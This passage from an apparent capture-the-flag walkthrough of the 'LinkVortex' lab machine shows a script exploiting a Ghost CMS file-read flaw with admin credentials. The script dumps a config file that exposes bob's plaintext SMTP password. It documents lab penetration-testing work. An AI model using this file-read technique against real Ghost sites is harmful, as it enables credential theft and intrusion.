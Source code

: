 This works just fine.

### SSH as bob

#### Recover bob’s Password

[Earlier](#changed-files) the Git repo had the `Dockerfile` for running the Ghost container. One thing it did was copy the config file into the container:

```

# Copy the config
COPY config.production.json /var/lib/ghost/config.production.json

```

That’s worth a read:

```

oxdf@hacky$ python read.py linkvortex.htb admin@linkvortex.htb OctopiFociPilfer45 /var/lib/ghost/config.production.json
{
  "url": "http://localhost:2368",
  "server": {
    "port": 2368,
    "host": "::"
  },
  "mail": {
    "transport": "Direct"
  },
  "logging": {
    "transports": ["stdout"]
  },
  "process": "systemd",
  "paths": {
    "contentPath": "/var/lib/ghost/content"
  },
  "spam": {
    "user_login": {
        "minWait": 1,
        "maxWait": 604800000,
        "freeRetries": 5000
    }
  },
  "mail": {
     "transport": "SMTP",
     "options": {
      "service": "Google",
      "host": "linkvortex.htb",
      "port": 587,
      "auth": {
        "user": "bob@linkvortex.htb",
        "pass": "fibber-talented-worth"
        }
      }
    }
}

```
